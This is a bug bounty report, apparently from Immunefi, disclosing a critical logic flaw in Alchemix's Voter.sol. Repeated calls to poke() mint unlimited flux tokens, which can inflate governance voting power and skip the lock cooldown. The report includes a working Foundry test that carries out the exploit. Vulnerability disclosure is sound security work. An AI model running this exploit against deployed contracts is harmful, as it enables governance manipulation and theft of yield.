 
# Manipulation of ve voting mechanism, unlimited boost, circumvention of cooldown

Submitted on May 19th 2024 at 11:53:51 UTC by @riptide for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31444

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Logic error in `Voter::poke()` allows any attacker to create a maximum `ve` lock, boost their voting power, vote to manipulate governance proposals with falsified voting power, then circumvent the cooldown period and immediately remove their lock.

## Vulnerability Details
Calling `Voter::poke()`  will call `Voter::_vote()` directly which allows an attacker to bypass the `onlyNewEpoch` modifier that disallows multiple calls per epoch and normally prevents the calling of `Voter::accrueFlux()`. The logic within `Voter::accrueFlux()` contains an additive instruction `unclaimedFlux[_tokenId] += amount;` that allows an attacker to mint himself unlimited `flux` tokens by calling `Voter::poke()` repeatedly.

## Impact Details
The purpose of the `ve` voting and locking mechanism is that a user must lock up tokens for a set time period and is rewarded with greater voting power the longer one locks his tokens. Using this exploit, an attacker is able to lock up significant capital for the max lock time, mint `flux` tokens to further inflate voting power, vote to influence governance proposals with the grossly inflated voting power, then mint an unlimited amount of `flux` tokens to be able to `rage quit` and trigger the cooldown process. Ultimately the attacker only needs to allocate capital for one epoch (cooldown period) to catastrophically and unfairly manipulate governance voting results.  

## References
Add any relevant links to documentation or code



## Proof of Concept

Add the following test to existing test suite in `FluxToken.t.sol`

```
function testFluxVotingManipulation() external {
        address bribeAddress = voter.bribes(address(sushiGauge));

        uint256 tokenId1 = createVeAlcx(beef, TOKEN_1M, veALCX.MAXTIME(), false);
        uint256 amount1 = veALCX.claimableFlux(tokenId1);
        uint256 unclaimedFlux1Start = flux.getUnclaimedFlux(tokenId1);

        assertEq(unclaimedFlux1Start, 0, "should start with no unclaimed flux");

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint i = 0;
        uint unclaimedFlux;
        uint maxVotingPower;

        hevm.startPrank(beef);

        uint maxBoost = voter.maxVotingPower(tokenId1) - IVotingEscrow(veALCX).balanceOfToken(tokenId1);
        uint256 ragequitAmount = veALCX.amountToRagequit(tokenId1);

        while(unclaimedFlux < (maxBoost + ragequitAmount)) {
            voter.poke(tokenId1);
            unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
        }

        flux.approve(address(veALCX), unclaimedFlux);

        hevm.warp(newEpoch());

        uint maxBoost2 = voter.maxVotingPower(tokenId1) - IVotingEscrow(veALCX).balanceOfToken(tokenId1);

        voter.vote(tokenId1, pools, weights, maxBoost2);

        flux.claimFlux(tokenId1, ragequitAmount);
        flux.approve(address(veALCX), ragequitAmount);

        veALCX.startCooldown(tokenId1);
        hevm.warp(block.timestamp + nextEpoch);
        voter.reset(tokenId1);
        veALCX.withdraw(tokenId1);

        assertEq(IERC20(bpt).balanceOf(beef), TOKEN_1M);

        hevm.stopPrank();
    }
```